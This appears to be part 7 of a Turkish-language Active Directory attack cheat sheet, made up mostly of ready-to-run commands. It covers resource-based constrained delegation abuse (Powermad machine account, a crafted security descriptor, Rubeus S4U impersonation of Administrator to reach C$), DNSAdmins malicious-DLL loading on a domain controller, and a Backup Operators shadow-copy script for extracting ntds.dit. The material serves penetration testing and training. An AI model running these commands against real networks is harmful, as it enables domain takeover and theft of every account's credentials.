 # Active Directory Exploitation Cheat Sheet - Bölüm 7

## Exploitation Örneği: 

### Powermad Kullanarak Yeni Bir Makine Hesabı Oluşturma:
```powershell
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose
```

### PowerView ile Makine Hesabının SID'ini Alma:
```powershell
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid
```

### ACE Oluşturma:
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

### msDS-AllowedToActOnBehalfOfOtherIdentity Alanını Ayarlama:
```powershell
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

### Rubeus ile RC4 Hash Hesaplama:
```bash
Rubeus.exe hash /password:'p@ssword!'
```

### CIFS Servisinde Domain Admin İmpersonation:
```bash
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt
```

### Hedef Makinenin C$ Sürücüsüne Erişim:
```bash
dir \\TargetMachine.wtver.domain\C$
```

## Constrain ve Resource-Based Constrained Delegation

### Kekeo veya Rubeus Kullanarak Delegation Hakkını Kandırma:
- **Rubeus Kullanımı:**
  ```bash
  Rubeus.exe tgtdeleg /nowrap
  ```

## DNSAdmins Abuse

### Açıklama:
DNSAdmins grubunun bir üyesi, dns.exe'nin SYSTEM yetkileriyle keyfi bir DLL yüklemesine izin verebilir. DC bir DNS sunucusu olarak çalışıyorsa, bu yöntemle DA yetkisi yükseltilebilir.

#### DNSAdmins Grubu Üyelerini Listeleme:
- **PowerView Kullanımı:**
  ```powershell
  Get-NetGroupMember -GroupName "DNSAdmins"
  ```

- **AD Modülü Kullanımı:**
  ```powershell
  Get-ADGroupMember -Identity DNSAdmins
  ```

#### Malicious DLL ile Yetki Yükseltme:
- **dnscmd Kullanımı:**
  ```bash
dnscmd <NameOfDNSMachine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
  ```

- **DNS Servisini Yeniden Başlatma:**
  ```bash
  sc \\DNSServer stop dns
  sc \\DNSServer start dns
  ```

## Backup Operators Grubunun Suistimali

### Açıklama:
Backup Operators grubuna üye bir kullanıcı hesabını ele geçirirsek, SeBackupPrivilege yetkisini suistimal ederek DC'nin mevcut durumunun shadow copy'sini oluşturabilir, ntds.dit dosyasını çıkarabilir ve DA yetkilerini elde edebiliriz.

#### Shadow Copy Oluşturma:
1. **Shadow Copy Script'i Oluşturma:**
```plaintext
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive
create
expose %mydrive% w:
end backup

} 
```
